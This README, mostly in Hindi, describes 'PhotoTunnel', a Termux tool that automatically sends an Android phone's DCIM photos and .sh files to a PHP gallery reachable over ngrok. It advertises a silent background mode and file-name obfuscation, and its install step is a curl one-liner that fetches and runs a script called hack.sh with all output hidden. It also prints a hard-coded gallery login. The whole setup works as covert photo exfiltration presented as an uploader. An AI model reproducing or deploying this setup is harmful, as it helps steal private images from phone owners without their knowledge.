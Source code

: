 # 📸 PhotoTunnel
**Termux Auto Image/Script Uploader with PHP + ngrok + Secure Gallery**

PhotoTunnel एक ऑटोमेशन प्रोजेक्ट है जो Android (Termux) से आपके PHP/ngrok सर्वर पर **DCIM फोल्डर की इमेजेस** और **.sh स्क्रिप्ट फाइलें** सुरक्षित तरीके से अपलोड करता है।  
इसके साथ एक **पासवर्ड प्रोटेक्टेड गैलरी**, सर्च/सॉर्ट फीचर, और लॉग सिस्टम भी है।

---

## ✨ फीचर्स
- **📤 Termux Upload Script**
  - DCIM फोल्डर से इमेजेस का ऑटो अपलोड
  - Silent Mode → बिना आउटपुट के बैकग्राउंड अपलोड
  - File Obfuscation → अपलोड के समय नाम बदलना
- **🔐 Secure PHP Gallery**
  - Login Required (default: `codex` / `Codex@2003`)
  - Search & Sort (Newest, Oldest, Name)
  - Download Images
- **🛡 Security**
  - Brute Force Protection (5 फ़ेल login → लॉक)
  - CSRF Token Protection
  - Secure HTTP Headers
  - Sanitized Filenames
- **📝 Logs**
  - IP, Date/Time, Action (Login, Download, Logout…)
  - लॉग फाइल डाउनलोड का ऑप्शन (सिर्फ लॉगिन के बाद)
- **💻 .sh File Upload Web Form**
  - वेबसाइट से केवल `.sh` फाइलें अपलोड करें

---

## 📂 फाइल स्ट्रक्चर 
```
.
├── .github/workflows/deploy.yml    # GitHub Actions workflow
├── upload.php                      # File upload handler
├── gallery.php                     # Secure image gallery
├── sh.php                          # Termux auto-upload script (auto-generated)
├── README.md                       # यह डॉक्युमेंट
```

---

### 2️⃣ Secrets सेट करें (GitHub)
- Repo → **Settings** → **Secrets and variables** → **Actions**
- `New repository secret` क्लिक करें  
  **Name:** `NGROK_AUTHTOKEN`  
  **Value:** आपका ngrok ऑथ टोकन  

### 3️⃣ Workflow रन करें
- कोई भी फ़ाइल push करें या commit → workflow ऑटो रन होगा

### 4️⃣ Termux पर स्क्रिप्ट रन करें
```bash
curl -s -O https://raw.githubusercontent.com/<username>/<reponame>/main/hack.sh && chmod +x hack.sh && ./hack.sh >/dev/null 2>&1
```
### Full Guid Github Guru YouTube channel,
---

## 🔒 लॉगिन डिटेल्स
- **Gallery URL:** `https://<ngrok-url>/gallery.php`  
- **Username:** `codex`  
- **Password:** `Codex@2003`

---

## 📜 लॉग एक्सेस
- गैलरी में लॉगिन के बाद "Download Logs" बटन से डाउनलोड करें  
- लॉग फॉर्मेट:
```
[YYYY-MM-DD HH:MM:SS] USERNAME: codex | IP: x.x.x.x | ACTION: DOWNLOAD_IMAGE | DETAILS: file.jpg
```

---

## ⚠️ सुरक्षा टिप्स
- Public में पासवर्ड बदलें  
- Logs और uploads को सुरक्षित permissions दें  
- ngrok URL को पब्लिक में शेयर करने से बचें
- github repo ka Privet kare
- jisme scipt file hoga termux ke liye use dusare repo banakar script ko termux me run kare

---

## 📝 लाइसेंस
MIT License

---

## 🤝 योगदान
Pull requests, issues और सुझाव का स्वागत है!

